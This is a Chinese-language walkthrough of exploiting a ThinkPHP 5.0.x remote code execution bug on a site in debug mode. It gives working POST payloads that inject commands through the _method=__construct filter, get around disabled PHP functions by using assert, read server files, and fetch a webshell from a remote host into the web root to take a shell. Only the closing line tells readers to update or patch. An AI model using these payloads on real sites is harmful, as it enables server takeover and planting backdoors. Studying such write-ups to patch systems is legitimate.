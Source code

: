 [![](https://p3.ssl.qhimg.com/t0186366ff9c4a188f9.png)](https://p3.ssl.qhimg.com/t0186366ff9c4a188f9.png)

在`debug`状态下，我们知道网站的绝对路径，并且`ThinkPHP`版本号为`V5.0.x`，由于开启`debug`状态，构造相应`payload`进行探测

```
POST:_method=__construct&amp;filter[]=system&amp;get[]=whoami
```

发现**php**配置文件中应该设置了`disabled_function`:

[![](https://p3.ssl.qhimg.com/t0179e813174ae0d331.png)](https://p3.ssl.qhimg.com/t0179e813174ae0d331.png)

我们知道在`phpinfo()`中即使加入参数，也不影响其执行，因此`call_user_func('phpinfo()','1')`同样能够执行

先看一波`phpinfo`看看禁用哪些函数,发现还设置了`open_basedir`

[![](https://p4.ssl.qhimg.com/t014bd40af5ba86909b.png)](https://p4.ssl.qhimg.com/t014bd40af5ba86909b.png)

[![](https://p5.ssl.qhimg.com/t013b28104a9ada2b13.png)](https://p5.ssl.qhimg.com/t013b28104a9ada2b13.png)

```
passthru,exec,system,chroot,chgrp,chown,shell_exec,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru
```

把最为常用的函数禁用了，当该PHP版本低于**7.2**,因此`assert`这个关键的函数并没有过滤，也就意味着我们能先使用`assert`来做一些操作，本来是直接构造

```
POST:_method=__construct&amp;filter[]=assert&amp;get[]=assert($_POST[1]);
```

然后用`antsword`连上就好，但是发现并不能成功连接，原因可能是`antsword`和菜刀仅支持`eval`后门，可能现在就需要换一换思路:

在默认配置中，`file_get_contents`可以读取**URL**内容并进行输出，并且`file_get_contents`是不会被ban的，这里先验证一下:

```
POST:_method=__construct&amp;filter[]=assert&amp;get[]=assert($_POST[1]);&amp;1=print(file_get_contents("./index.php"));
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t014e1f295ddc2492dd.png)

因此直接结合网站绝对路径，我们知道在`public`是面向用户的，我们可以利用`file_get_contents`读取马后使用`file_put_contents`写入到`public`目录下，这样就能够一句话进行连接

```
_method=__construct&amp;filter[]=assert&amp;get[]=$a=(file_get_contents("http://马的地址"));$b=file_put_contents('网站根目录/public/xxx.php',$a);
```

最终`getshell`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01451e31e44b7837ad.png)

可见如果目前还在使用`Thinkphp5.0`版本是十分危险的，应该及时更新版本或者相应打上补丁
